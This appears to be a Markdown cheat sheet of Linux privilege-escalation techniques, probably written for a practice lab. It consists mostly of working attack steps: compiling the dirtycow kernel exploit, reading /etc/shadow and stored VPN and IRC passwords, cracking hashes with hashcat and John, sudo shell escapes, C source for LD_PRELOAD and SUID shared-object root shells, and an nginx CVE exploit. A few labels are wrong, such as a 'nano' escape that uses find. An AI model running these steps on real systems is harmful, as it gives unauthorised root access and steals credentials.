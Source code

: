 # Linux privesc

- [ ] ##Privilege Escalation - Kernel Exploits
- Download `linux-exploit-suggester.sh` script: `/linux-exploit-suggester/linux-exploit-suggester.sh`
- Compile and run `dirtycow` exploit:
```bash
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
```
- Change password: `passwd`
- Check user privileges: `id`

- [ ] **Privilege Escalation - Stored Passwords (Config Files)**
- View VPN configuration: `cat /home/user/myvpn.ovpn`
- Note the "auth-user-pass" directive value in the config.
- View OpenVPN auth file: `cat /etc/openvpn/auth.txt`
- Search for passwords in Irssi config: `cat /home/user/.irssi/config | grep -i passw`

- [ ] **Privilege Escalation - Stored Passwords (History)**
- Search for passwords in bash history: `cat ~/.bash_history | grep -i passw`

- [ ] **Privilege Escalation - Weak File Permissions**
- List shadow file permissions: `ls -la /etc/shadow`
- View `/etc/passwd` file: `cat /etc/passwd`
- View `/etc/shadow` file: `cat /etc/shadow`
- Unshadow password file:
```bash
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
```
- Use hashcat to crack passwords:
```bash
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

- [ ] **Privilege Escalation - SSH Keys**
- Search for authorized_keys and id_rsa files:
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
- Set appropriate permissions on id_rsa: `chmod 600 id_rsa`
- Connect using SSH key: `ssh -i id_rsa root@<ip>`

- [ ] **Privilege Escalation - Sudo (Shell Escaping)**
- List sudo permissions: `sudo -l`
- Perform one of the shell escaping techniques:
- Execute nano with a shell:
  ```
  sudo find /bin -name nano -exec /bin/sh \;
  ```
- Use `awk` to spawn a shell:
  ```
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```
- Create an Nmap script for shell execution:
  ```
  echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
  ```
- Execute a shell through sudo vim:
  ```
  sudo vim -c '!sh'
  ```

**Privilege Escalation - Sudo (Abusing Intended Functionality)**
- List sudo permissions: `sudo -l`
- Exploit a program that doesn't exist in ctfobins:
sudo apache2 -f /etc/shadow
- Provide the pasted root hash and crack it with John the Ripper:
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt

**Privilege Escalation - Sudo (LD_PRELOAD)**
- List sudo permissions: `sudo -l`
- Create a shared object for privilege escalation:
1. Open a text editor and type x.c:
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
- Compile and load the shared object:
  ```
  gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
  sudo LD_PRELOAD=/tmp/x.so apache2
  ```

**Privilege Escalation - SUID (Shared Object Injection)**
- Find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
- Trace the `suid-so` binary to locate missing .so file:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
- Create a shared object for privilege escalation:
mkdir /home/user/.config
cd /home/user/.config
- Create and compile a shared object (libcalc.c):
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  static void inject() __attribute__((constructor));
  void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
  ```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

- Run the SUID binary to escalate privileges:
  ```
  /usr/local/bin/suid-so
  ```

**Privilege Escalation - SUID (Symlinks)**
- Identify installed nginx version: `dpkg -l | grep nginx`
- Exploit a known vulnerability (CVE-2016-1247):
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- Restart the system to trigger the exploit: `invoke-rc.d nginx rotate >/dev/null 2>&1`
